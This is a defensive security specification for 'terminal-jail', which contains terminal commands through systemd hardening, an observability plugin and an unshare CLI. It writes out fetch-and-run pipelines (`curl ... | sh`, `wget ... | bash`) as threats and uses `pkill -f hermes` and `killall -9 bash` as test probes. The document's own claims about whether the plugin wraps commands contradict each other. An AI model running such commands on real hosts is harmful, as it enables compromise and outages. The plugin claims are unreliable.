

# Terminal-Jail Integration Specification

## Purpose

Terminal-jail is a defense-in-depth containment system for terminal commands. It uses three independently deployable layers with a clear architectural split:

1. **systemd service hardening** — the `90-terminal-jail-hardening.conf` drop-in for `hermes-gateway.service`. This is the PRIMARY PID namespace isolation and process containment layer. It provides `PrivateUsers=true`, `ProtectProc=invisible`, `RestrictNamespaces=true`, `NoNewPrivileges=true`, `TasksMax`, and `RestrictAddressFamilies`. These are kernel-enforced and cannot be bypassed by command syntax.
2. **Hermes plugin** — observability layer. Registers `pre_tool_call` (visibility into terminal commands) and `transform_terminal_output` (output annotation) hooks. The plugin does NOT wrap commands — Hermes core has no pre-execution command-transform hook. The plugin provides metrics, logging, and operational visibility. Command wrapping functions (`transform_command`, `transform_exec_command`) exist in the plugin codebase and are tested (87 tests pass), but they are NOT wired to any execution path.
3. **Standalone CLI** — the `terminal-jail` Bash wrapper for commands launched manually or by non-Hermes automation. Wraps commands in `unshare --pid --fork --mount-proc --kill-child=SIGKILL`. This is the only component that performs PID namespace wrapping at the command level.

No layer is assumed to be perfect or universally available. The intended security property is that a command must bypass *multiple, differently implemented enforcement points* to affect the host, other users' processes, host-visible files, or the network.

This document specifies how the layers compose, the threats they address, failure/degradation behavior, installation and upgrade order, and validation of the complete stack.

### Architectural decision: systemd as sole PID isolation (HOOK-GAP-03)

Hermes core has no pre-execution command-transform hook. The plugin's `pre_tool_call` hook only supports block/allow decisions — it cannot modify command strings. The `transform_command` and `transform_exec_command` functions exist in the plugin and are tested, but cannot be wired to Hermes command execution without a core change.

**Resolved architecture:** PID namespace isolation is delegated entirely to the systemd layer (`PrivateUsers=true`, `RestrictNamespaces=true`, `ProtectProc=invisible`). The plugin provides observability only — metrics, logging, byte-budget enforcement, and operational visibility. The standalone CLI remains available for explicit PID namespace wrapping in non-systemd contexts (Docker, manual use).

Two Hermes core changes have been explored to restore command-level wrapping:
- **HOOK-GAP-01 (PR #68216):** `--sandbox` flag adding `terminal.jail_enabled` config key — wraps at the terminal backend layer (`tools/environments/local.py`), not the plugin layer.
- **HOOK-GAP-02:** Backend-layer wrapping via `HERMES_TERMINAL_JAIL_ENABLED` env var in `_run_bash()`.

Neither is merged upstream as of v1.0.0. The systemd-only architecture is the production deployment path.

## Security goals

The full stack is designed to:

- prevent commands in a contained session from signaling or killing host processes;
- limit blast radius from accidental destructive commands such as `killpg`, `killall`, and `pkill`;
- contain process multiplication and reduce fork-bomb impact;
- prevent privilege gain by processes started from the Hermes gateway;
- reduce visibility into unrelated host processes through `/proc`;
- restrict package-install and shell-pipeline malware from modifying host-visible files;
- prevent sandboxed processes from opening arbitrary network sockets;
- retain useful command execution in environments where one or more enforcement mechanisms are unavailable.

## Non-goals and assumptions

Terminal-jail is a containment boundary, not a complete host security architecture.

- It does not make untrusted native code safe against a kernel exploit.
- It does not remove trust from the account running `hermes-gateway.service`; correct systemd service identity and file ownership remain prerequisites.
- It does not prevent all data exfiltration if a permitted network path, mounted secret, host IPC mechanism, or credential is deliberately exposed to the sandbox.
- It does not protect commands intentionally run outside both the Hermes plugin and `terminal-jail` CLI.
- It does not replace image hardening, dependency provenance, secret management, mandatory access control, patching, logging, or monitoring.
- `unshare` isolation requires kernel/user-namespace support and an implementation that verifies requested namespaces were actually created.
- The exact availability of filesystem, PID, and mount isolation depends on the flags and mounts selected by the plugin and CLI implementations. This specification requires their policy to be equivalent where both are available.

## Layer composition



### Composition rules

| Layer | Entry point covered | Primary enforcement | Independent value |
|---|---|---|---|
| systemd drop-in | The Hermes gateway process tree and all descendants | Kernel-enforced PID namespace isolation via `PrivateUsers=true` + `RestrictNamespaces=true` + `ProtectProc=invisible` | Applies regardless of command syntax, cannot be bypassed by shell metacharacters. The authoritative containment boundary. |
| Hermes plugin | Commands launched by Hermes terminal sessions | Observability only: command visibility (`pre_tool_call`), output annotation (`transform_terminal_output`), byte-budget enforcement, metrics export | Provides operational visibility, metrics, and logging for terminal commands. Does NOT wrap commands — Hermes core lacks a pre-execution command-transform hook. |
| Standalone CLI | Interactive commands and scripts explicitly invoked as `terminal-jail ...` | `unshare` PID namespace sandbox equivalent to the intended plugin behavior | Provides PID namespace isolation outside systemd contexts (Docker, manual use). Only component that performs command-level `unshare` wrapping. |

The systemd layer is the PRIMARY containment boundary. It is attached to the service process tree and cannot be bypassed merely by supplying a different executable, a shell metacharacter sequence, or a direct binary path. The plugin provides observability on top of systemd containment — it sees what commands run but does not modify them.

The CLI provides PID namespace isolation for contexts where systemd is unavailable (Docker without systemd, manual host-shell use). A manual command launched through `terminal-jail` receives CLI namespace confinement; if that command is launched from a process already in the hardened gateway service, systemd controls also apply.

The three layers compose as: systemd enforces the containment boundary → plugin observes and reports → CLI provides a portable fallback for non-systemd contexts.

## Control mapping and attack coverage

### PID namespace containment: `killpg`, `killall`, and `pkill`

The layers participate in protection against indiscriminate process signaling as follows:

- The **systemd drop-in** provides `PrivateUsers=true` (user namespace isolation), `ProtectProc=invisible` (filtered /proc view), and `RestrictNamespaces=true` (prevents creating new namespaces to escape). This is the PRIMARY PID isolation mechanism. It constrains the entire gateway process tree.
- The **Hermes plugin** provides observability: it sees terminal commands via `pre_tool_call` but does NOT wrap them. The plugin's `transform_command` function exists and is tested but is not wired to any execution hook (see HOOK-GAP-03 above).
- The **`terminal-jail` CLI** uses `unshare` PID namespace isolation for manual invocation. This is the only component that performs command-level PID namespace wrapping.

Inside a correctly created PID namespace, process-discovery and signal tools only see processes in that namespace. `killpg(1)`, `killall`, and `pkill` therefore cannot target arbitrary host process groups or host PIDs that are not namespace-visible. A process can still signal processes within its own namespace when ordinary Unix permission rules allow it. This is expected: PID namespaces reduce host blast radius; they do not prohibit process management inside the sandbox.

### Fork bombs

The systemd layer provides `TasksMax` for `hermes-gateway.service`, constraining the number of tasks the gateway service cgroup may create. This is the primary quantitative backstop against process exhaustion from a fork bomb or aggressive worker spawning.

The `terminal-jail` CLI provides PID namespace isolation for manual use, which contains the immediate process tree.

The plugin provides observability — it can detect and log anomalous command patterns (e.g., commands containing `:` or `()` shell fork-bomb syntax) but cannot prevent execution.

`TasksMax` must be set to a value consistent with normal Hermes concurrency, subprocess use, and legitimate build/test workloads. The selected limit must be documented in the drop-in and regularly tested under expected peak load.

### Privilege escalation: `sudo`, setuid, file capabilities, and exec transitions

`NoNewPrivileges=yes` in the systemd drop-in prevents the gateway service and its descendants from gaining additional privileges through exec. This blocks common privilege escalation paths involving setuid/setgid binaries and file capabilities for processes in the service tree.

The plugin and CLI do not independently provide an equivalent guarantee. Their role is to reduce the reachable filesystem and process surface; the systemd drop-in is the authoritative privilege-gain control.

`NoNewPrivileges` does not make credentials harmless. A process that is already privileged, has access to a delegated privileged daemon/socket, or is supplied a valid credential may still be able to perform authorized actions. Do not mount Docker sockets, host root filesystems, privileged IPC endpoints, or reusable production credentials into the service sandbox.

### `/proc` snooping

`ProtectProc=invisible` in the systemd drop-in restricts process visibility through `/proc`, reducing exposure of unrelated process command lines, environment-derived metadata, and PID discovery. This is the authoritative service-level backstop — it applies to the gateway process tree rather than only to individual wrapped commands.

The `terminal-jail` CLI's PID namespace also reduces process visibility for wrapped commands. `ProtectProc` is the broader and more reliable mechanism because it is kernel-enforced at the service level.

The plugin provides observability — it logs when commands access `/proc` paths but does not restrict access.

### Package malware and `curl | sh`

The plugin and CLI filesystem isolation policies contain untrusted package installers and shell pipelines such as:

```text
pip install <untrusted-package>
curl -fsSL https://example.invalid/install.sh | sh
wget -qO- https://example.invalid/bootstrap | bash
```

The namespace wrapper must provide a private, disposable, or otherwise non-host-writable filesystem view. In particular, it must avoid exposing writable host locations that would allow persistence or modification of user configuration, binaries, service unit files, SSH material, or project sources unless explicitly required for the workload.

Filesystem isolation does not prove that a downloaded payload is benign. It reduces host persistence and modification risk. If network access is available, malware may still execute inside the sandbox and attempt exfiltration over permitted channels. The systemd network restriction below is the complementary control.

### Network escapes

`RestrictAddressFamilies` in the systemd drop-in limits the socket address families that `hermes-gateway.service` and descendants may create. The policy must allow only address families required for normal gateway function and deny families that could create unintended network paths, raw sockets, packet sockets, Bluetooth, Netlink mutation paths, or other unnecessary communications.

The drop-in is the authoritative full-service network control. Plugin and CLI filesystem isolation limit the ability of downloaded tools to persist, while systemd constrains their ability to establish unauthorized network channels when they run in the gateway service tree.

A restricted address-family policy is not automatically a universal egress deny. It does not replace firewall rules, proxy policy, DNS policy, service account isolation, or explicit `IPAddressDeny=`/`IPAddressAllow=` policy where those are required. The allowed families must be reviewed alongside the service's actual network requirements.

## Threat model

| Attack vector | Layer(s) that block or contain it | How protection works | Plausible bypass scenario | Residual risk |
|---|---|---|---|---|
| `killpg(1)` targeting the host process group | Plugin, CLI, systemd-composed stack | Plugin/CLI PID namespaces limit visible target processes; systemd constrains the gateway service tree. | Command is run outside both wrappers; namespace creation silently fails; attacker controls a privileged host process. | Sandboxed processes may still kill their own namespace processes; host kernel vulnerabilities remain out of scope. |
| `killall -9 bash` or equivalent broad-name signaling | Plugin, CLI, systemd-composed stack | PID namespace makes unrelated host `bash` processes unavailable to name-based process discovery. | Wrapper is bypassed, malformed, or fails open; the target is in the same namespace. | In-namespace processes with matching names can be killed. |
| `pkill -f hermes` | Plugin, CLI, systemd-composed stack | PID namespace hides host/gateway process targets from the wrapped command; service hardening limits impact on gateway descendants. | Command is launched directly on host; `/proc` or PID namespace policy is absent; legitimate target resides in sandbox. | Denial of service remains possible against sandbox-local processes. |
| Fork bomb / excessive subprocess spawning | Plugin, CLI, systemd | PID namespace contains scope; systemd `TasksMax` caps task creation in `hermes-gateway.service`. | Attack runs outside hardened service; `TasksMax` is unset/too high; host-wide PID limits are weak. | The service can still consume up to its configured task and CPU/memory allocation; use system resource controls and monitoring. |
| `sudo`, setuid binary, file capability privilege gain | systemd | `NoNewPrivileges=yes` prevents gaining privilege across exec in the service tree. | Process starts already privileged; service exposes privileged IPC/socket; administrator intentionally permits escalation. | Valid credentials and authorized privileged services remain powerful; do not expose them. |
| `/proc` inspection of unrelated processes | systemd, plugin, CLI | `ProtectProc` hides/restricts process metadata; PID namespace narrows wrapped command visibility. | Systemd is unavailable/misconfigured; command runs outside service and wrappers; host permits alternative observability interfaces. | Metadata for permitted/same-namespace processes may remain visible. |
| Malicious `pip` package modifies host files | Plugin, CLI; systemd reduces service privilege | Filesystem namespace/mount policy prevents writes to host-visible persistent paths. | Writable host bind mount, home directory, project directory, cache, socket, or shared volume is exposed; command is run outside wrapper. | Payload can alter sandbox-visible data or build artifacts intentionally mounted writable. |
| `curl | sh` persistence or bootstrap script | Plugin, CLI; systemd | Filesystem isolation limits persistence; service privilege restrictions limit escalation. | Internet access and a writable shared host mount remain available; direct host shell is used. | Payload can execute in sandbox and attack allowed resources. |
| Network escape, arbitrary socket creation | systemd | `RestrictAddressFamilies` denies unnecessary socket families for the service process tree. | Required `AF_INET`/`AF_INET6` is allowed and no egress firewall exists; command runs outside service. | Traffic over allowed families/endpoints can remain possible; apply egress filtering for stronger control. |
| Namespace escape via kernel vulnerability | None fully; all reduce attack surface | Layering reduces privileges, files, process visibility, and networking available to exploit code. | Exploit targets vulnerable kernel or privileged helper. | Kernel compromise is high impact; patch kernel, minimize exposed namespaces/capabilities, use MAC/VM boundaries for hostile code. |
| Direct manual command not prefixed with `terminal-jail` | Plugin only for Hermes; otherwise none | Hermes plugin catches commands issued through Hermes. | User runs a command in an ordinary host shell outside Hermes and without CLI. | Full host impact is possible; provide shell aliases, documentation, training, and consider stronger account/container isolation. |
| Plugin disabled or unavailable | CLI and systemd where used | CLI explicitly wraps manual calls; systemd continues hardening the gateway service. | Manual command bypasses CLI; Docker lacks systemd. | Namespace containment depends on operator use of CLI. |
| systemd absent, including many Docker deployments | Plugin and CLI | Both wrappers can still use `unshare` namespace and filesystem isolation independently. | `unshare` is unavailable or unsupported; wrapper fails open. | No `NoNewPrivileges`, `ProtectProc`, `TasksMax`, or address-family restriction from systemd. |
| `unshare` unavailable or not on `PATH` | Graceful degradation logic in all layers | Layer detects unavailability and follows the configured fail-safe policy rather than executing an unexpectedly unsandboxed command. | Implementation fails open by blindly executing original command. | If policy allows execution, no namespace containment exists; systemd controls may still apply for Hermes gateway. |

## Graceful degradation

Graceful degradation means that a missing optional layer must be detectable, logged, and handled according to an explicit policy. It must never be mistaken for successful sandboxing.

The default security posture for commands explicitly requested to be sandboxed is **fail closed**: if the wrapper cannot establish required isolation, it returns a clear error and does not run the original command. Administrators may choose an explicitly documented development-only fail-open mode, but it must produce a prominent warning identifying the missing control and must never be the silent default.

### Graceful degradation matrix

| Condition | Plugin behavior | CLI behavior | systemd behavior | Effective protection | Required operator action |
|---|---|---|---|---|---|---|
| All layers installed and healthy | Observes Hermes terminal commands via `pre_tool_call`; annotates output via `transform_terminal_output`. Does NOT wrap commands. | Wraps explicit manual invocations in `unshare` PID namespace. | Applies service-level PID isolation (`PrivateUsers`, `ProtectProc`, `RestrictNamespaces`), privilege, `/proc`, task, and socket-family restrictions. | Full intended defense-in-depth: systemd provides PID isolation; plugin provides observability; CLI provides portable fallback. | Run periodic verification checklist. |
| Plugin not installed or disabled | Hermes commands are not observed or annotated. | `terminal-jail ...` still supplies namespace/filesystem isolation for commands explicitly invoked through it. | Still constrains `hermes-gateway.service` if deployed. | CLI plus service hardening; plugin observability is lost. | Install/repair plugin to restore metrics and logging. |
| CLI not installed or not used | Plugin observes Hermes commands. | No protection for ordinary manual host-shell commands. | Still constrains gateway process tree. | Systemd hardening plus plugin observability for Hermes sessions only. | Install CLI for manual/high-risk work outside Hermes. |
| systemd unavailable, such as Docker without systemd | Plugin observes Hermes commands but does not wrap them. | CLI still wraps commands if `unshare` is available. | Drop-in cannot apply. | CLI `unshare` isolation only; no systemd-level `NoNewPrivileges`, `ProtectProc`, `TasksMax`, or `RestrictAddressFamilies`. | Use container runtime controls (`--pids-limit`, read-only filesystem, dropped capabilities, seccomp, network policy) or run under a systemd-enabled host. |
| `unshare` not on `PATH` | Plugin observes but does not wrap (regardless of unshare availability). | Detect before executing. Required-isolation mode returns an actionable error. | Systemd hardening remains active for the gateway service. | systemd-only for Hermes gateway; no CLI wrapper available. | Install/configure `unshare` from util-linux, correct `PATH`, and verify namespace support. |
| `unshare` exists but required namespace creation fails | Plugin observes but does not wrap. | Do not run original command in fail-closed mode. | Systemd hardening remains active for service tree. | Same as prior row unless an explicitly approved development fail-open policy is selected. | Diagnose kernel/user namespace policy, required permissions, and mount setup. |
| Manual command is run directly outside Hermes and without CLI | Not in path. | Not in path. | Not in path unless the shell itself belongs to hardened gateway service. | None of terminal-jail's normal controls. | Use `terminal-jail`, a dedicated unprivileged account/container, or another approved execution environment. |

### Required `unshare` failure semantics

Every wrapper implementation must:

1. resolve `unshare` using an absolute configured path or a verified `PATH` lookup before accepting a command;
2. verify that required `unshare` flags and namespace operations succeed;
3. emit a concise diagnostic naming the missing binary, unsupported kernel setting, permission failure, or mount failure;
4. exit non-zero without running the original command when required isolation cannot be established;
5. avoid shell constructions that retry the original command outside the namespace after a failed `unshare` invocation;
6. make any development-only fail-open switch explicit, opt-in, auditable, and unavailable in production service configuration;
7. record a structured log/metric for failed isolation setup so health monitoring can detect coverage loss.

## Installation procedure

Install from the outermost, service-wide backstop inward:

1. **systemd hardening drop-in**
2. **Hermes plugin**
3. **standalone CLI**

This order matters because it establishes the broadest protection before enabling new execution paths. The systemd drop-in hardens the gateway process tree even if plugin configuration is incomplete, a command transform is faulty, or an operator invokes a binary unexpectedly from inside the service. Installing the plugin next provides automatic coverage for normal Hermes sessions. Installing the CLI last provides an explicit and documented manual-use escape from unsafe direct host-shell execution, without being relied on as the only protection for the gateway.

### Prerequisites

Before installation, confirm that:

- the host runs systemd if service hardening is expected;
- `hermes-gateway.service` is the correct unit name and is managed by systemd;
- `unshare` is installed from util-linux and executable by the relevant service/user account;
- required user and mount namespace features are supported by the kernel and permitted by local policy;
- the gateway service runs as a dedicated, unprivileged account where possible;
- no unnecessary host paths, Docker sockets, credentials, SSH agents, or privileged IPC sockets are exposed to the gateway;
- expected normal workloads are known so `TasksMax` and filesystem mounts do not break legitimate operation.

### Step 1: install and activate the systemd drop-in

1. Place `90-terminal-jail-hardening.conf` in the `hermes-gateway.service.d` drop-in directory used by the deployment.
2. Review the drop-in against the gateway's real operational requirements. In particular, validate `NoNewPrivileges`, `ProtectProc`, `TasksMax`, and `RestrictAddressFamilies` rather than weakening them preemptively.
3. Reload systemd manager configuration.
4. Restart `hermes-gateway.service` in a controlled maintenance window.
5. Inspect the effective unit configuration and service status to confirm the drop-in is loaded.
6. Run the systemd verification commands in this document before proceeding.

Do not continue to plugin rollout if the drop-in is syntactically invalid, not loaded by the target unit, or materially reduces the security score below the required baseline without an approved exception.

### Step 2: install and configure the Hermes plugin

1. Install the terminal-jail Hermes plugin through the approved Hermes plugin mechanism.
2. Configure its `terminal.command.transform` hook to invoke the validated `unshare` wrapper policy.
3. Ensure the plugin runs in fail-closed mode for required isolation and emits a meaningful error when `unshare` is unavailable.
4. Restart or reload the Hermes component required for plugin discovery.
5. Verify that a newly created Hermes session, not merely an already-running session, loads the plugin.
6. Run the plugin verification checklist.

The plugin must preserve command argument boundaries. It must not interpolate a complete shell command through unsafe string concatenation, and it must not permit user-controlled values to alter the wrapper's namespace flags or mount policy.

### Step 3: install the standalone CLI

1. Install the `terminal-jail` executable in a root-owned or otherwise trusted directory on `PATH`.
2. Verify that it resolves the intended `unshare` binary and does not honor unsafe environment-controlled wrapper paths.
3. Document its use for interactive shells, automation, and emergency/manual operations.
4. Optionally provide a shell alias or approved workflow integration, but do not let an alias obscure whether a command was actually sandboxed.
5. Run the CLI verification checklist.

The CLI must pass commands and arguments without lossy re-parsing. The documented interface must make clear whether the command is supplied as argv or a quoted shell snippet, and shell execution must be avoided unless explicitly required and safely handled.

## Upgrade procedure

Upgrade in a controlled sequence that avoids a coverage gap:

1. Review release notes, diffs, and compatibility notes for the systemd drop-in, plugin, CLI, and their `unshare` flags/mount policy.
2. Back up current configuration and record the effective systemd unit settings and plugin configuration. Do not back up or print secrets as part of this process.
3. Upgrade the systemd drop-in first. Reload manager configuration and restart the service only after validating unit syntax and required service dependencies.
4. Verify systemd hardening and normal gateway startup.
5. Upgrade the Hermes plugin and reload/restart the relevant Hermes component.
6. Verify plugin transformation in a fresh Hermes session.
7. Upgrade the CLI binary/script.
8. Verify CLI behavior and argument handling.
9. Execute the full-stack end-to-end test strategy in a non-production environment.
10. Monitor structured errors, service restarts, task-limit events, denied syscall/socket events, and user reports after rollout.

### Rollback procedure

Rollback must preserve the outer service boundary where possible:

1. If a plugin or CLI regression occurs, disable or revert that component while leaving the validated systemd hardening drop-in active.
2. If systemd hardening causes an availability incident, identify the specific incompatible directive and apply the narrowest temporary exception; do not remove the entire drop-in as a first response.
3. Document any temporary reduction in score or coverage, its owner, and an expiry/review date.
4. Re-run all verification checks after rollback to establish the actual remaining protection level.

## Verification checklist

Verification must be run from a controlled non-production environment first. A command returning an error is only meaningful when the error demonstrates sandbox isolation rather than a missing executable, malformed invocation, or service outage. Capture exit code, stderr, and relevant service logs.

### A. Prerequisite and policy checks

- [ ] Confirm `unshare` is available to the Hermes service account and to CLI users.
- [ ] Confirm the plugin and CLI use the same approved namespace and filesystem-isolation policy.
- [ ] Confirm fail-closed behavior when `unshare` cannot be resolved or namespace setup fails.
- [ ] Confirm the gateway service runs under the intended unprivileged account.
- [ ] Confirm no unintended writable host mounts, secrets, Docker socket, or privileged IPC endpoint is exposed to sandboxed commands.
- [ ] Confirm the effective systemd unit includes the terminal-jail drop-in.

### B. Hermes plugin verification

Run the required behavioral probe in a fresh Hermes session:

```text
hermes chat -q "pkill -f hermes"
```

Expected result:

- The command returns an error/non-zero outcome attributable to the sandboxed command being unable to target host-visible Hermes processes.
- The Hermes gateway remains healthy and continues serving subsequent benign requests.
- Logs show that the terminal command transform was applied and, where supported, identify the namespace wrapper execution without exposing sensitive command data unnecessarily.

Additional recommended plugin probes:

- [ ] Run `ps` or a narrowly scoped process-list command in the transformed session and confirm it does not expose unrelated host processes.
- [ ] Attempt a write to a known non-sandbox host path that policy should make unavailable; confirm failure and confirm the host file remains unchanged.
- [ ] Attempt a benign child-process fan-out sized below `TasksMax`; confirm normal execution.
- [ ] Verify command arguments containing spaces, quotes, glob characters, and leading dashes are passed intact and cannot alter wrapper flags.
- [ ] Temporarily test missing `unshare` in an isolated test configuration and confirm the plugin returns a clear error rather than running the command on the host.

Do not use a probe that can terminate the actual gateway or production shell even if isolation fails. In production-like testing, replace destructive target patterns with a disposable process created solely for the test namespace.

### C. Standalone CLI verification

Run the required behavioral probe:

```text
terminal-jail "killall -9 bash"
```

Expected result:

- The command returns an error/non-zero outcome because host `bash` processes are not visible/targetable from the jailed PID namespace, or because no matching in-namespace process exists.
- The invoking host shell remains alive.
- The CLI reports a setup failure instead of executing unsandboxed if `unshare` is unavailable.

Additional recommended CLI probes:

- [ ] Run a process listing inside `terminal-jail` and confirm that unrelated host processes are absent.
- [ ] Attempt to write to a policy-prohibited host location and confirm it fails; independently inspect the location from the host to confirm no modification.
- [ ] Run a harmless `pip` install or simulated installer in a disposable fixture and confirm package/cache writes remain inside the intended sandbox-visible paths.
- [ ] Use an argument-preservation test with spaces, quotes, dollar signs, semicolons, glob patterns, and an argument beginning with `-`.
- [ ] Test missing `unshare` with a test-only PATH and confirm non-zero fail-closed behavior.

### D. systemd hardening verification

Run the required security assessment:

```text
systemd-analyze security hermes-gateway.service
```

Expected result:

```text
Overall exposure level: ...
```

The assessed security score for `hermes-gateway.service` must be **at least 9.0**. Record the exact score, systemd version, and any warnings because scoring heuristics can differ between systemd releases.

Also verify:

- [ ] The effective unit configuration contains `NoNewPrivileges=yes`.
- [ ] The effective unit configuration contains the intended `ProtectProc` setting.
- [ ] The effective unit configuration contains a non-default, documented `TasksMax` value appropriate to the service.
- [ ] The effective unit configuration contains the intended `RestrictAddressFamilies` allowlist/deny policy.
- [ ] A test process launched through the gateway cannot gain privilege through a setuid/file-capability path.
- [ ] A test process cannot inspect unrelated `/proc` entries beyond the selected `ProtectProc` policy.
- [ ] Task-limit events are observable in journal/service monitoring when a controlled test reaches the limit.
- [ ] Socket-creation attempts using an intentionally disallowed address family fail and are observable in logs/audit where available.
- [ ] Normal gateway operations still succeed under the restrictions.

### E. Full-stack verification

- [ ] Start a fresh non-production gateway instance with the systemd drop-in active.
- [ ] Confirm the plugin is loaded in that instance.
- [ ] Execute the required plugin probe: `hermes chat -q "pkill -f hermes"`.
- [ ] Execute the required CLI probe: `terminal-jail "killall -9 bash"`.
- [ ] Confirm `systemd-analyze security hermes-gateway.service` reports a score of at least 9.0.
- [ ] Confirm the host shell, gateway service, and a known unrelated host process remain healthy after all probes.
- [ ] Confirm service logs contain no failed-open namespace initialization event.
- [ ] Confirm no test artifact persists outside approved disposable test paths.

## End-to-end testing without a production Hermes instance

The complete stack must be testable without connecting to production Hermes, production credentials, or production workloads.

### Test environment design

Use a disposable environment with:

- a non-production Linux VM, ephemeral test host, or disposable container/VM combination;
- a dedicated unprivileged test account;
- a test systemd unit named consistently with the target unit where practical (for example, a test copy of `hermes-gateway.service`);
- a minimal local Hermes gateway/plugin fixture, stub, or test harness that loads the real `terminal.command.transform` plugin path but does not contact production services;
- a synthetic, harmless command executor with deterministic logs;
- no production secrets, SSH agents, Docker socket, host mounts, cloud credentials, or shared home directory;
- a separate sentinel host process whose survival can be checked after destructive-name probes;
- a writable disposable workspace and a known host path deliberately excluded from the sandbox for write-denial tests.

If Docker is used for the fixture and systemd is unavailable inside the container, test plugin and CLI namespace behavior there, then run the systemd-specific checks on a disposable systemd-enabled VM or host. Do not represent a Docker-only run as full-stack validation because it cannot validate the systemd layer.

### Test cases

| Test | Setup | Action | Expected result |
|---|---|---|---|
| Plugin process-signal containment | Start non-production gateway with plugin and hardened unit; start external sentinel process. | Invoke `hermes chat -q "pkill -f hermes"`. | Request errors/has no host target effect; gateway and sentinel survive; transform log exists. |
| CLI process-signal containment | Start an ordinary host-shell sentinel. | Invoke `terminal-jail "killall -9 bash"`. | Command errors or finds no host target; invoking host shell survives. |
| PID visibility | Create a uniquely named host sentinel outside sandbox. | Run process-discovery command via plugin and CLI. | Sentinel is absent from sandbox-visible process list. |
| Filesystem write isolation | Define a host path excluded from sandbox mounts. | Attempt write through plugin and CLI. | Write fails; independent host-side check confirms unchanged content. |
| Package/pipeline containment | Use a local harmless package or local HTTP fixture that attempts controlled writes. | Run `pip` installation fixture and a `curl | sh`-style fixture in sandbox. | Only allowed disposable sandbox paths change; prohibited host path remains unchanged. |
| Fork containment | Use a controlled fan-out helper with bounded duration. | Run beneath gateway unit until near/over configured task limit. | New task creation is denied/capped; service and host recover; event is observable. |
| No-new-privileges | Provide a deliberately harmless test setuid/file-capability fixture only in disposable environment. | Execute fixture through hardened gateway path. | Privilege gain does not occur. |
| `/proc` protection | Start external sentinel under another process identity where feasible. | Inspect `/proc` from gateway child. | Visibility matches `ProtectProc` policy and does not disclose unrelated processes. |
| Address-family restriction | Use a small test helper that requests an intentionally disallowed socket family. | Execute through hardened gateway. | Socket creation fails; required gateway networking remains functional. |
| Missing `unshare` | Test-only environment/PATH omits `unshare`. | Invoke plugin and CLI. | Both return clear non-zero setup error; original command is not executed. |
| Missing plugin | Run gateway fixture without plugin but with CLI/systemd available. | Execute command through CLI path. | CLI containment remains effective; test report marks automatic Hermes coverage absent. |
| No systemd environment | Run fixture in Docker without systemd. | Execute plugin and CLI probes. | Namespace/filesystem tests pass if supported; report explicitly marks systemd controls unverified/unavailable. |

### Safety requirements for tests

- Never run `pkill`, `killall`, fork bombs, or privilege probes against a production gateway, shared developer workstation, or host process namespace without verified isolation.
- Prefer unique test process names and disposable sentinels over broad matching patterns.
- Bound every resource test by timeout, maximum child count, and cleanup trap in the test helper.
- Test write-denial behavior against purpose-built fixture paths, never user homes or system configuration.
- Keep a separate host-side observer outside the sandbox to verify sentinels, service health, files, and network traces.
- Treat unexpected command success as a security failure, stop the test, and inspect actual namespace/service configuration before retrying.

## Operational monitoring and evidence

Deployment is not complete without evidence that containment remains active.

Monitor and periodically review:

- plugin initialization and command-transform success/failure events;
- `unshare` resolution and namespace setup failures;
- systemd unit restart failures and rejected service directives;
- `TasksMax`/cgroup task-limit events;
- denied socket or syscall events when auditing is available;
- changes to the effective systemd unit, plugin configuration, CLI wrapper, `PATH`, mount policy, and service account;
- drift in `systemd-analyze security hermes-gateway.service` score from the required 9.0 baseline;
- unexpected writable mounts, attached credentials, or privileged sockets in the gateway execution environment.

Alerting should distinguish between a command that was safely denied by policy and a failure to initialize the policy itself. The latter is a coverage-loss event and requires remediation.

## Acceptance criteria

The integration is acceptable only when all of the following are true:

1. The systemd drop-in is active for `hermes-gateway.service`, and `systemd-analyze security hermes-gateway.service` reports a score of at least 9.0.
2. The drop-in enforces `NoNewPrivileges`, `ProtectProc`, a documented `TasksMax`, and a documented `RestrictAddressFamilies` policy compatible with the service's legitimate operation.
3. The Hermes plugin transforms terminal commands through the approved `unshare` policy in fresh Hermes sessions.
4. The standalone `terminal-jail` CLI applies equivalent required namespace/filesystem isolation for explicit manual invocations.
5. `hermes chat -q "pkill -f hermes"` returns an error without damaging the non-production gateway or host sentinel process.
6. `terminal-jail "killall -9 bash"` returns an error without terminating the invoking host shell.
7. Missing or failing `unshare` produces an explicit non-zero error and never silently executes the original command unsandboxed in production configuration.
8. End-to-end tests verify PID/process containment, filesystem write isolation, task limits, no-new-privilege behavior, `/proc` restrictions, and address-family restrictions in a disposable non-production environment.
9. Any unavailable layer is reported in the deployment/test record, along with the resulting residual risk and compensating controls.
